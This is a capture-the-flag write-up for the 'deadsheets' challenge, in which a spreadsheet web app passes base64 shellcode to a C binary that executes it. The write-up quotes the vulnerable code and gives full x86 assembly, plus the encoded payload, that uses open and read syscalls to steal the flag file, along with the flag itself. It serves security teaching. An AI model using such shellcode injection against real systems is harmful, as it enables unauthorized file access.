 # deadsheets

> Greetings and salutations, cyber-sleuths and code-crackers! Do you fancy yourself a master of the matrix, a wizard of the web, or a guru of the code? Well, hold on to your hats because we've got a challenge that will have you hacking your way to glory!
>
> Introducing our latest cybersecurity CTF challenge, where you'll be diving headfirst into the depths of a custom "dead" database - yes, you heard that right, DEAD as in Dangerously Extensible Ancient Database! Now, this might sound like a graveyard for your cyber-skills, but don't let the name fool you. This database is so ancient and terrible that it has more holes than Swiss cheese! And your task, dear challengers, is to find those holes and exploit them like a boss!
>
> But wait, there's more! Our challenge involves a spreadsheet website where you'll have to inject some shellcode to make the backend server dance to your tune. Think you've got what it takes to make that happen? Well, it's not going to be easy, but with some clever shellcode and a lot of tenacity, you just might be able to hack your way to the coveted flag file!
>
> So, dust off your hacking tools, flex those cyber-muscles, and get ready to take on this challenge like a pro. It's time to show the cyber-world what you're made of!

Provided: [`deadsheets.tar.gz`](deadsheets.tar.gz)

## Solution

I'm not sure why but that challenge description gives me really strong ChatGPT vibes :)
Like it mentions though this is a shellcode challenge, although we interact with it through a website which is a bit interesting.

Extracting the provided tarball gives us a bunch of files, but `app.py` looks interesting, specifically the `update` function/route:

```python
# app.py, lines 34-47
@app.route('/update', methods=['POST'])
def update():
    name = request.json['uuid']
    sheet_path = Path.cwd().joinpath(f"{name}.dead")
    if sheet_path.exists():
        row = request.json['row']
        col = request.json['col']
        ex = request.json['ex']
        value = request.json['value']
        command = ("./dead", sheet_path, f"UPDATE{'_EX' if ex else ''}", f"{row},{col}", value)
        subprocess.run(command)
        return "ok"
    else:
        return 'Sheet not found', 404
```

Based on that, it looks like the `dead` binary is used to update the contents of sheets while they're being edited on the website.
The `dead` binary itself is compiled from `db.c` based on the Makefile:

```Makefile
all:
	gcc -m32 -no-pie db.c -o dead
```

In `db.c` itself, we can check out the help message (which you can also see just by running the `dead` binary without any arguments):

```c
    // db.c, lines 57-72
    if (argc != 5) {
        printf(
            "dead: CLI utility for the Dangerously Extensible Ancient Database\n"
            "\n"
            "Usage: ./dead <filename> <operation> [cell] [argument]\n"
            "  filename      Name of the file update\n"
            "  operation     UPDATE or UPDATE_EX\n"
            "  cell          If operation is UPDATE or UPDATE_EX, specifies the row,column of the\n"
            "                cell on which to perform the update operation\n"
            "  argument      If operation is UPDATE, specifies the value to update the cell with\n"
            "                If operation is UPDATE_EX, specifies the base64 encoded shellcode used\n"
            "                to update the cell. The shellcode starts at address "
        );
        printf("%p\n", shellcode);
        return 1;
    }
```

Based on that, it looks like we want the `UPDATE_EX` operation since that's the one that allows us to execute arbitrary shellcode :)
We can achieve that by changing to extensible mode in the web editor and entering a Base64-encoded shellcode into a given cell.

Although we could technically execute any shellcode shorter than the maximum length of 4096 bytes, popping a shell here wouldn't be super useful since we wouldn't get to interact directly with it (we only get to view the results after a POST request).

Based on the part of `db.c` that executes our shellcode, it looks like it expects our shellcode to return a string (well, a `char*` :)):

```c
// db.c - lines 121-136
    if (ex) {
        int shellcode_length;
    		char *decoded = base64_decode(argument, &shellcode_length);
        shellcode_length = shellcode_length < MAX_LEN ? shellcode_length : MAX_LEN;
        memcpy(shellcode, decoded, shellcode_length);
        free(decoded);

        // Run shellcode to determine the value with which to update the cell
        mprotect(shellcode - ((long int)shellcode % 4096), 4096, PROT_READ | PROT_WRITE | PROT_EXEC);
        char *(*shellcode_func)() = (char *(*)())shellcode;
        char *result = shellcode_func(); // <--- this is the interesting line

        // Copy the result of running the shellcode into the cell
        contents[row][col] = malloc(strlen(argument) + 1);
        memcpy(contents[row][col], result, strlen(result) + 1);
    }
```

Now, if only there was a way to somehow read the flag file into memory and get a pointer to the resulting string :)
Luckily for us, there is!
Because we can execute completely arbitrary shellcode, we can make arbitrary syscalls as well, including the [`open(2)`](https://www.man7.org/linux/man-pages/man2/open.2.html) and [`read(2)`](https://www.man7.org/linux/man-pages/man2/read.2.html) syscalls which do exactly what they sound like :)

In the end, my team ended up doing the following with our payload:

1. Save a few registers' values to the stack to restore later (otherwise things break)
2. Use the `open` syscall to get a file descriptor to the file `flag`
3. Use the `read` syscall to read the contents of `flag` into memory, using the file descriptor obtained from `open()`
4. Restore the registers modified by the syscalls
5. Return a pointer to the string representing the contents of `flag`

Writing out the assembly to do all that by hand proved to be a bit of a pain, but I discovered later that pwntools has a lot of convenience functions for dealing with shellcode in the [`shellcraft`](https://docs.pwntools.com/en/stable/shellcraft.html) module.
I guess you're probably supposed to close the file descriptor after using it but hey, if it works it works :)

Here's the actual generated assembly to do all of that:

```asm
// push registers modified by syscalls onto stack for restoring later
push ebx
push ecx
push edx

// open the `flag` file for reading (autogenerated by pwntools)
/* open(file='flag', oflag=0, mode=0) */
/* push b'flag\x00' */
push 1
dec byte ptr [esp]
push 0x67616c66
mov ebx, esp
xor ecx, ecx
xor edx, edx
/* call open() */
push SYS_open /* 5 */
pop eax
int 0x80


// read the contents of `flag` into the .bss section of memory (40 bytes is arbitrary)
// (autogenerated by pwntools)
/* read(fd='eax', buf=0x804c060, nbytes=0x28) */
mov ebx, eax
push 0x804c060
pop ecx
push 0x28
pop edx
/* call read() */
push SYS_read /* 3 */
pop eax
int 0x80


// return a pointer (address) to the contents of `flag`
// note that this address is the same as `buf` for the read syscall
mov eax, 0x804c060

// move stack pointer back down (up?) since it was moved while setting up the open syscall
add esp, 8

// restore registers back to original values by popping them back off the stack in reverse order
pop edx
pop ecx
pop ebx

// return :)
ret
```

You can see exactly how it was generated in the [`Python script`](gen_shellcode.py) I wrote.
When you run it, it also outputs the resulting base64-encoded shellcode to enter into the deadsheet editor website:

```shell
$ python gen_shellcode.py
# --snip--
U1FSagH+DCRoZmxhZ4njMckx0moFWM2AicNoYMAECFlqKFpqA1jNgLhgwAQIg8QIWllbww==
```

After making sure you're in extensible mode and pasting that into a deadsheet cell, reloading the editor should give you the flag in that same cell:

<div align="center">
<img src="img/flag-editor.png" alt="Flag present in deadsheet editor">
</div>

And there's our flag: `osu{53cur17y_15_0v3rr473d}`!
Can't say that I agree but hey, this was definitely a good demonstration of how Secure™ legacy code tends to be in the name of backwards compatibility :)
